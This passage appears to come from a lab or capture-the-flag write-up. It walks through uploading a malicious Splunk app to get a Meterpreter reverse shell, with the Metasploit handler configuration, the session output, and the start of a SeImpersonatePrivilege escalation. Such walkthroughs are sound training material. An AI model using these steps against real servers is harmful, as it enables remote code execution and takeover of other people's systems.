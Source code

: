 We then create a TAR archive of the main directory that includes the `bin` and `default` directories:

```bash
tar -cvzf rce.tar.gz rce
```

### Meterpreter Shell

We create a new handler in **Metasploit** using the `multi/handler` module and configure it with the following options:

```
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.18
msf6 exploit(multi/handler) > set lport 9001
msf6 exploit(multi/handler) > run
```

We then upload the `.tar.gz` file using the *Install app from file* option on the **Splunk** admin dashboard:

![image.png](image%2014.png)

We receive confirmation that our application "*was installed successfully*":

![image.png](image%2015.png)

On the Metasploit handler, we get a Meterpreter shell as the `alexander.green` user:

```
[*] Started reverse TCP handler on 10.10.14.18:9001 
[*] Sending stage (203846 bytes) to 10.10.11.61
[*] Meterpreter session 1 opened (10.10.14.18:9001 -> 10.10.11.61:61614) at 2025-06-26 13:27:04 +0400

meterpreter > getuid
Server username: HAZE\alexander.green
meterpreter >
```

## LM: alexander.green → SYSTEM

### SeImpersonatePrivilege Abuse

Checking the user privileges, we see that the `SeImpersonatePrivilege` privilege is set:

```
Privilege Name                Description                               State  
============================= ========================================= =======
SeMachineAccountPrivilege     Add workstations to domain                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

